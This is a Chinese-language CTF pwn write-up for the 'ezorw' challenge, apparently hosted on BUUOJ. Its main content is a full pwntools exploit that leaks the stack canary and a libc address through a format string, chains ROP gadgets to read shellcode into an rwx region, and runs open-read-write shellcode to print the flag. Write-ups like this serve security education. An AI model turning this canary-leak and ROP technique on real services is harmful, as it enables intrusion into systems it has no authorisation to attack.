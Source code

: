 # W3 orw rop

## 文件分析

下载`ezorw`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

程序存在一片区域rwx，并且禁用了system，那么只要将shellcode写到那片区域，
再执行就可以了

那么没有gadgets怎么办？libc里应有尽有，只要知道了libcBase就可以拿到

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'
sh = remote('node4.buuoj.cn', 28119)

# payload 1
sh.sendline(b'%11$p') # get canary
sh.recvline(b'x\n') # skip
canary = int(sh.recvline()[:18], 16)

elf = ELF('ezorw')
putsGot = elf.got['puts']
main = elf.symbols['main']

# payload 2, notice seccomp requires a balanced stack; place putsGot on stack
retAddr = 0x4013b2
sh.sendline(b'0'*0x28 + p64(canary) + b'0'*8 + p64(retAddr) + p64(main) + p64(putsGot))

# payload 3, get puts@got
sh.sendlineafter(b'x\n', b'%13$s')
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')

libcBase = putsGotAddr - 0x80ed0
popRsi = libcBase + 0x2be51
popRdxRbx = libcBase + 0x90529 # some gadgets in libc
readPlt = elf.plt['read']

# payload 4, make a read call to read shellcode to 0x66660000
sh.sendlineafter(b'now', b'0'*0x28 + p64(canary) + b'0'*8 + p64(popRsi) + p64(0x66660000) + p64(popRdxRbx) + p64(0x100) + p64(0) + p64(readPlt) + p64(0x66660000))

# payload 5, create orw shellcode
shc = asm(shellcraft.open('./flag') + shellcraft.read('rax', 'rsp', 0x100) + shellcraft.write(1, 'rsp', 0x100))
sh.sendline(shc)

sh.interactive()
```

Done.
